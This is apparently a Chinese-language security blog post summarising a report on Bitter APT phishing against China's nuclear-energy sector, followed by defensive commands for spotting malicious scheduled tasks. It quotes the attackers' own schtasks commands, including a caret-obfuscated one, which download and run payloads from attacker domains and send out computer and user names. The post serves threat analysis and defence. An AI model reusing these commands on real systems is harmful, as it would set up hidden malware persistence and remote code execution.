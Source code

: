```yaml
---
date: 2023-03-24
authors: [SecAdmin]
title: 针对中国核能行业的网络钓鱼活动
description: >
  这篇报告中整个攻击流程非常清晰，具体的攻击手法都给出了示例，在钓鱼邮件的细节处理、还有一些防御规避措施都是值得注意的。最后的持久化都落地在计划任务，所以在防守时，重点关注计划任务中可疑的项目，文章后面我给出了具体排查的命令。
categories: 网络攻防
tags:
  - APT
---
```


> 亮点：这篇报告中整个攻击流程非常清晰，具体的攻击手法都给出了示例，在钓鱼邮件的细节处理、还有一些防御规避措施都是值得注意的。最后的持久化都落地在计划任务，所以在防守时，重点关注计划任务中可疑的项目，文章后面我给出了具体排查的命令。

## 一、背景

被认为来自南亚的黑客组织 Bitter APT 最近正以中国核能机构为攻击目标。安全公司 Intezer 报告，在最近的行动中，Bitter APT 伪装成吉尔吉斯斯坦驻北京大使馆向中国核能公司和该领域的学者发送钓鱼邮件，邀请他们参加吉尔吉斯斯坦大使馆等主办的一个核能会议。邮件签名者是真实存在的，是吉尔吉斯斯坦外交部的一名官员。但邮件附件是恶意的，会执行一系列行动释放恶意负荷。

## 二、攻击技术细节

1. 恶意微软 Excel 文件，每 15 分钟运行一次计划任务，使用 cURL 下载恶意程序。

``` Powershell
"C:\Windows\System32\schtasks.exe" /create /sc MINUTE /mo 15 /TN \Windows\DWM\DWMCORE /TR "cmd /c start /min curl --output %AppData%\dwmcor.exe -O ""https://qwavemediaservice[.]net/hkcu/qt.php/?dt=%computername%-QT-2&ct=QT""" /f
```

2. 恶意微软 Excel 文件，每 20 分钟运行另一个计划任务，执行上一步下载的恶意程序。

``` Powershell
"C:\Windows\System32\schtasks.exe" /create /sc MINUTE /mo 20 /TN \Windows\DWM\DWMCORELIB /TR "%AppData%\dwmcor.exe" /f
```

3. CHM 文件，创建一个计划任务。（通过分解字符串以进行模糊处理）

``` Powershell
"C:\Windows\System32\schtasks.exe" /create /sc minute /mo 15 /tn AdobeUpdater /tr "%coMSPec% /c s^t^a^rt /^m^i^n m^s^i^e^xe^c ^/^i htt^p:/^/mirz^adih^atti^[.]com^/cs^s/t^ry.php?h=%computername%*%username% /^q^n ^/^norestart" /ft
```

4. CHM 文件，创建的另一个计划任务

``` Powershell
,cmd.exe, /c start /min powershell -e xxxx
schtasks /create /tn WinSecurity /sc minute /mo 15 /tr "powershell.exe -WindowStyle Hidden -command curl -o %LOCALAPPDATA%\pic.jpg https://coauthcn[.]com/hbz.php?id=%computername%;timeout 9;more %LOCALAPPDATA%\pic.jpg|powershell;timeout 9;del %LOCALAPPDATA%\pic.jpg" /f
```

## 三、防守要点

上述所有操作，最终都是创建了计划任务进行持久化，所以通过查看计划任务的执行的命令操作，可以看到可疑的执行命令。具体排查命令如下：

1. 使用 PowerShell 分析定位可疑的计划任务
``` Powershell
Get-ScheduledTask | Format-Table -AutoSize
(Get-ScheduledTask -TaskName DWMCORELIB).Actions | Format-List *
(Get-ScheduledTask).Actions | Format-List Execute
```
2. 使用 CMD 分析定位可疑的计划任务
``` Powershell
schtasks.exe /Query /V /FO LIST  （输出格式：TABLE、LIST、CSV。）
taskschd.msc （图形界面）
```

## 四、附加知识点

** %comspec% 是什么？**
打开一个命令行窗口。%comspec% 是一个指向当前命令行外壳的环境变量。通过使用 %comspec%，您不必担心命令行外壳是 cmd.exe 还是 command.exe；%comspec% 会自动选择正确的一个。

** PowerShell Base64 编码 **
``` Powershell
// Base64 编码
$commond ="write-host 'testmsg'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($commond)
$encodeCommand = [Convert]::ToBase64String($bytes)
write-host 'StringToBase64: ' $encodeCommand
// Base64 解码
$DecodeText=[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encodeCommand))
write-host 'Base64ToString: ' $DecodeText
```

感兴趣的朋友加我好友，一起学习交流！~

报告原文：https://intezer.com/blog/research/phishing-campaign-targets-nuclear-energy-industry/